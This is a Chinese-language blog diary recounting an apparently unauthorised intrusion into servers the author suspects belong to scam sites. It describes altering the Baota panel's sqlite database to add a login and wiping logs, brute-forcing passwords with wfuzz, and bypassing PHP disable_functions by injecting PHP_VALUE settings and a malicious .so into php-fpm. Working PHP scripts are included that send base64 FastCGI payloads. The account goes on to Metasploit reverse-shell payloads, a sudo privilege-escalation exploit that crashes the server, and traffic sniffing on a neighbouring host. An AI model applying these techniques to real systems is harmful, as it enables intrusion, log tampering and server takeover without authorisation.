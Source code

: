  # 写的日记（就为了一吃的，然后为了吃的更好的咸鱼） 
 
 * 信息收集
# 宝塔后台
     首先想到的就是之前一直留着没进去的宝塔面板后台，里面应该会有些登录信息之类，但并没有得到登录密码，但这也并没有太大影响，
     因为现在可以直接访问宝塔的数据库文件（panel/data/default.db， sqlite数据库文件），所以直接进去备份个账户然后设置个密码，防止把正常账户挤下去：
      

![图片](https://user-images.githubusercontent.com/79394963/151659781-f08c8c28-f5d6-4060-b894-64357669d461.png)
![图片](https://user-images.githubusercontent.com/79394963/151659788-3812e174-21a6-4ce9-94d2-9d4255e8239f.png)

清理下日志，然后就是愉快的登录进去 ㄟ( ▔, ▔ )ㄏ：

![图片](https://user-images.githubusercontent.com/79394963/151659803-8e4d2105-120f-4260-b40f-250f56cc6653.png)
首先看到的就是账户名，想是管理员的手机号，这里看不全，去设置里面瞅瞅：

![图片](https://user-images.githubusercontent.com/79394963/151659813-fa778497-3798-48af-922a-05a9538518d1.png)

这里也是中间四位打了星号，从源码里也看不出，但这些也都是纸老虎，因为随后审查发现一处接口请求数据，返回信息里是完整的手机号，微信搜了下也有这个这么个账户：

![图](https://user-images.githubusercontent.com/79394963/151659835-34df9cfc-2717-42b9-9023-c0e477581a81.png)

新起点
在之后某个时间点准备继续收集信息的时候，发现其域名甚至IP都无法再访问了，后面几天试了也都不行，感觉可能是收割完一波然受卷款跑路了；自然，除了一些信息，之前获取的所有权限，都化作泡影了；也是在这之后，警察蜀黍竟主动联系了过来（没有喝茶，俺是良民 $_$），由于想着再碰碰运气看看，结果有趣的事再次发生了，
访问之前那个IP展示出了这么个页面


![图片](https://user-images.githubusercontent.com/79394963/151659868-382e6678-9f0c-4beb-b72e-b87455d0aee0.png)
![图片](https://user-images.githubusercontent.com/79394963/151659881-b7a19297-2f0a-4f7a-b048-33bf8fd5da60.png)
=_= 好吧，来都来了，就是个顺手的事；下面的分析也印证了上面的猜想，这也算是个IP反查域名 的小技巧，因为正常的工具比如 nslookup, dig 只能从域名到IP进行解析（某些有 ptr 的除外），但是遇到这种有使用 https 的站点，如果没有限制IP直接访问的话，能够正常进入页面，并且在浏览器左上角点击协议名还能查看所使用的证书，正常的证书的“颁发给”的值就是站点的域名，这里显然不是，应该是个临时或者测试证书：

这里发现通过公共DNS解析出来的IP，和前面用的好像对不上号，细想下，应该就是使用了 CDN服务，这些IP对应的服务器都是提供服务的三方机构的，渗透没太大意义，并且也不容易，这里辛亏是直接通过源站IP进入的，不然要通过域名和CDN检索出源站还是另一项头疼的活儿；

那么有了域名就来扫一波子域名，获取潜在的关联站：


![图片](https://user-images.githubusercontent.com/79394963/151659902-42681d30-c3d3-4875-b499-8e49d40cdfff.png)

![图片](https://user-images.githubusercontent.com/79394963/151659907-383a7b9b-9389-4e30-a5ea-e373b2ed8baf.png)

还是发现了一些熟悉的身影，依旧先后台跑着密码先吧，按以往的经验，遇到精明的主也许有漏网之鱼，所以还需要贴心的整套全端口扫描服务：


还是发现了一些熟悉的身影，依旧先后台跑着密码先吧，按以往的经验，遇到精明的主也许有漏网之鱼，所以还需要贴心的整套全端口扫描服务：

双赢？不存在的，只会是单方面的 ╮（╯＿╰）╭，简单分析了会儿页面，这里就暂时不用祭出神器了，直接用 wfuzz 跑一波账户密码：
先放后台跑着，去其他地方转转；一会儿后就看到了结果，哟西！进去瞅瞅：
提现那个就不说了，能否成功全看管理员心情，下面那个看不太明白也没关系，可能道理大家也都懂，反正就那么个意思，你的命运我掌控，你的风险我操纵 (¬‿¬)；

![图片](https://user-images.githubusercontent.com/79394963/151659934-f0b4708f-1f73-44d5-a34a-3bc30a4a2e14.png)


![图片](https://user-images.githubusercontent.com/79394963/151659938-e573936f-0e41-4046-a29a-e381e5638c9b.png)


往上遍历目录发现确实不简单，出现了之前的某些域名，难道是小站群，后面花了好一段时间才稍微搞懂他们的架构，多个二级域名指向当前IP，并拥有几个不同的CDN地址，然后某个二级域名又指向另一台服务器IP，当前IP的服务器呢又包含了另一个一级域名对应的二级域名，这几个站点又几乎在共享同一套代码，=_= 真够复杂的，难道是业务拓展导致的计划不周么，不过着也不重要，对应到服务器就行；
![图片](https://user-images.githubusercontent.com/79394963/151659958-a0829ee1-5384-4624-b4df-1ac01c18d27a.png)

账户和密码就简单了，可通过某些手段获取，只是可惜对方并不是配置的 root 账户，而是一个子账户，用站点命名，应该是服务器有多站点的缘故，权限也不高，先登录进去看下：

有个表存的管理员的信息，额这个表名（bulamao）……难道又要开始考验我对博大的中国文化熟悉程度了吗，我认输了，有知道的小伙伴可以评论下；表里面有串密码的哈希值，先拿去查一下碰碰运气：

![图片](https://user-images.githubusercontent.com/79394963/151659967-9427daac-a698-43ff-8d17-90b3ed047758.png)


地方不大，还挺热闹，对面都是大佬惹不起，似乎还有好几拨人，让它们安静的躺着，相爱相杀吧，俺啥都没看见 (x_x)；









![图片](https://user-images.githubusercontent.com/79394963/151659972-75fd8973-5a64-4076-81f0-d5457eb4fe7f.png)

不用说，多半一些系统执行函数被禁用了，就是 php 配置项中的 disable_functions 值，用于限制能在 php 脚本中执行系统命令的一些函数，当然也存在一些漏洞导致的绕过方法，途径不少，节约时间，就不挨个手工测试了，直接用现有的集成插件：

看到 putenv 被禁用心就凉了半截，光这就能劝退大部分绕过方式了，不过还是得试试，因为还剩一个方法可用（php-fpm），通过查看系统配置文件发现，fpm 模块使用的 socket 通信方式，配置一下然后启动：

这里面可利用的点就是，绕过通往 nginx 的请求，直接与 php-fpm 服务沟通，理想情况就是由于配置失误导致 9000 监听在了外网接口而不是本机接口，当然这种情况也是极少数，但这也并不意味着监听本机就无法利用了，在 php 程序文件可写的前提下，可以在程序中通过 curl 接口向服务器本机 9000 端口发起请求（或 stream_socket_client 发起套接字文件通信请求），并且是模仿 fastcgi 客户端发送对应格式的数据，这样就能实现绕过 nginx 直接与 php-fpm 沟通；这种操作还有另一种说法，叫 SSRF（Server-Side Request Forgery），即服务端请求伪造，通过服务器去实现访问客户端正常不能访问到的内网资源；当然还有一个和他名字很像的手段： CSRF（Cross-Site Request Forgery，跨站请求伪造），只不过这个是盗用其他客户端的登录凭证；

可能这里还有个问题，这样绕了一圈去建立通信，最后不是还是会通过 php-fpm 吗，这样配置的函数限制依然存在，其实不然，直接和 php-fpm 沟通的话，它是支持修改 php 配置的，就是 fastcgi 协议中的 PHP_VALUE, PHP_ADMIN_VALUE 这两个参数，比如可以设置这两个配置：

            "PHP_VALUE": "auto_prepend_file = php://input" 
            "PHP_ADMIN_VALUE": "allow_url_include = On"
            
  这会导致执行 php 程序之前包含 HTTP 中 POST 的数据，实现任意代码执行的目的，但即使这样也还是不行，因为这里的任意代码执行依然逃不开 php 配置文件的控制，所以就还需要更进一层，可以利用 extension 这个环境变量，设置执行脚本是要引入的动态链接库文件（Linux 下是 .so，Windows 下是 .dll）：

              "PHP_VALUE": "extension = /xxx/xxx.so" 

这就需要有任意文件上传权限，不过都开始研究限制绕过了，这点权限是肯定有的，然后就是编译构造自己的 .so 文件，并向其中添加要执行的系统命令，这样链接库文件在被引入的时候就会执行预定的命令，同时也不受 php 配置文件的限制；这个sao操作也是在研究那个插件代码时发现的 (¬‿¬)，同时也通过抓包找到了之前一直返回空数据的原因：

![图片](https://user-images.githubusercontent.com/79394963/151660091-55070b20-451b-4bca-b2f7-b15f61333a41.png)


原来插件一直在站点根目录读取配置的后门程序，之前为了掩人耳目是塞到了一个隐蔽的深层目录，所以一直获取不到数据返回空，也算是自己的配置失误，就是这里需要配置为后门程序所在目录：

![图片](https://user-images.githubusercontent.com/79394963/151660111-8c71f4dd-ceef-45fe-859c-f37764fd8c2e.png)

程指令执行
目前虽然可以通过插件绕过 disable_functions 并正常使用虚拟终端，但后续并不打算这么做，插件的机理其实就是通过包含 .so 时执行里面插入的指令，查看生成的 .so 文件可以看到插入了这样一条命令：

其实就是利用远程指令执行运行了另一个 php 服务，自定义了端口，并且 -n 参数是不使用 php 配置文件的意思，这样就实现了绕过 disable_functions，方便让其他程序畅通无阻的运行虚拟终端，手段确实有趣，不过这里就大可不必了，都能执行命令了还要虚拟终端干啥，另外经过测试也发现这样连接有一定时效性，大概一分钟左右就会断开连接，原因未知，所以为了后续更愉快的玩耍，直接上 msf payload，生成 elf-so 格式的文件后上传站点，然后把自定义的 fastcgi 客户端(https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)参数改下，让包含的 .so 文件为我们的 payload 文件以使其运行：


运行后就会得到构造后的 fastcgi 协议数据（TCP数据流），让服务器 php 发送它就好，所以还需要服务端写个 php 程序来配合发送，这是使用使用套接字文件通信时的文件内容：

<?php 
ini_set("display_errors", "On"); 
error_reporting(E_ALL); 
 
$fp = stream_socket_client("unix:///tmp/php-cgi-56.sock", $errno, $errstr, 30); 
$url = $_GET['url']; 
 
if (!$fp) { 
    echo "Errno: " . "$errstr ($errno)<br />\n"; 
} else { 
    try { 
        fwrite($fp, base64_decode($url)); 
        var_dump(fread($fp, 8192)); 
    } catch (Exception $e) { 
        print_r($e); 
    } 
    fclose($fp); 
} 
    如果是监听如果是监听本地 9000 端口，可以使用 fsockopen 协议来发送 fastcgi 协议数据，具体就是：

<?php 
ini_set("display_errors", "On"); 
error_reporting(E_ALL); 
 
$fp = fsockopen("127.0.0.1", 9000, $errno, $errstr, 30); 
$url = $_GET['url']; 
 
if (!$fp) { 
    echo "Error: $errstr ($errno)<br />\n"; 
} else { 
	try { 
	    fwrite($fp, base64_decode($_GET['url'])); 
		var_dump(fread($fp, 8192)); 
	} catch (Exception $e) { 
		print_r($e); 
	} 
    fclose($fp); 
} 

   然后打开 msfconsole 开启反向连接监听：

![图片](https://user-images.githubusercontent.com/79394963/151660165-f9d36cd1-7fcd-4d2f-8f38-b016d7ee18f8.png)
因为之前说这里的 php 建立的连接只有不到一分钟时间，.so 文件执行的指令也不例外，所以这里就到了争分夺秒考验手速的时刻了，先断开连接待会重来，然后这次需要准备第二个 payload 传到同目录下，为了节省时间可以在第一次连接前以后台任务运行（run -j）meterpreter 反向监听，这样就不会浪费时间再去切换 module 和设置 payload 再运行了：

外第二个 payload 的监听任务就会建立连接，并且是持续的长连接，第一个连接关掉也无所谓，后面就能愉快地进行其他操作了 (ง •_•)ง

Linux 提权（Privilege Escalation）
前面虽然已花了不少时间，但还没到达最关键的一步，现在才是重头戏，并且也不会太轻松，毕竟这是 Linux 系统，不同于 windows，版本和补丁数量不是特别高的话，提权漏洞一抓一把（这方面也稍微印证了 Linux 系统较于 Windows 更安全），少归少，不至于没有，只能逐个尝试；

Sudo Baron Samedit（cve-2021-3156）
记得今年（2021）年初正好报了一个 Linux sudo 程序的提权漏洞，正好试下：
Local Exploit Suggester
这里使用一下这款本地提权建议工具，它会自动获取相关系统信息并提供一些可利用的漏洞建议：

![图片](https://user-images.githubusercontent.com/79394963/151660221-3b00efaa-6bfc-445e-b8ff-318086127c6c.png)
但这些凭证的时间都很靠前，应该都失效了，而且在用自己的宝塔服务测试时发现，出了会话 cookie 时效为 2 小时外，软件似乎也对 csrf 这类漏洞做了限制，比如某个账户在一台电脑登录后，直接拿到浏览器存储的 cookie 信息然后放到另一台电脑中去伪造访问，不仅伪造的机子无法登录，原登录的机子也会自动退出登录；不过在分析时发现了另外一处 cookie 信息，里面似乎包含了宝塔面板的一些信息：
然后尴尬的事就发生了，执行了一段时间 exp 后，服务器就突然报错断开了，然后 IP 就一直超时再也连不上了，这个 Kernel panic ，也就是 Linux 系统的致命错误，如果没记错的话无限近似于 Windows 系统中断或蓝屏（难道不经意间让 exp 升级为 DOS 了……），当然也可能是运气不好对方又关站跑路了，那么就先这样吧，指不定后面谁又接盘了 (T_T)；

C段嗅探
鉴于这次攻克过于棘手，所以过程中曾对机器的所在网段进行过扫描，然后不小心拿下一台业务类似的，和这次的目标在同一网关管辖下，所以先后台嗅探着数据吧，后面有时间再看看收获；

![图片](https://user-images.githubusercontent.com/79394963/151660244-edafe052-f3f0-4764-8c82-97f164b34c8d.png)

      不要过分相信别人私下写的代码再呈现给你看的东西，即使它看起来是那样的真实，你所看到的只不过是对方想让你看到的罢了，对方既是规则的执行者也是制定者以及违背者。

                        
                    不过是三十年河东三十年河西般时事迁移，并无稳固之说。既不稳固，何必一定要放在心上。


